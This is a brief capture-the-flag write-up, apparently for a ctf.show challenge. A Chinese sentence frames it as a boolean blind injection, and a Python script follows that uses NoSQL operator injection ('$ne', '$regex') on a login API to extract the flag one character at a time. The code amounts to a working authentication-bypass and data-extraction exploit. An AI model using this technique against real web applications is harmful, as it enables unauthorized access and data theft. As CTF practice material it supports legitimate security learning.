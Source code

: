 显示登录成功，但是没有返回flag，根据返回不同，当作布尔盲注题

```python
import requests
string="abcdefghigklmnopqrstuwxyz1230456789{}_-"
flag='{'
url="http://bb485952-cee8-4b38-b2c6-f64c2005c4f3.challenge.ctf.show/api/"
while True:
    for j in string:
        data={
            "username[$ne]":1,
            "password[$regex]":f"ctfshow{flag+j}"
        }
        r=requests.post(url,data=data)
        if "\\u767b\\u9646\\u6210\\u529f" in r.text:
            sign=j
            flag+=j
            print(flag)
        else:
            pass
    if sign=='}':
        break
```

end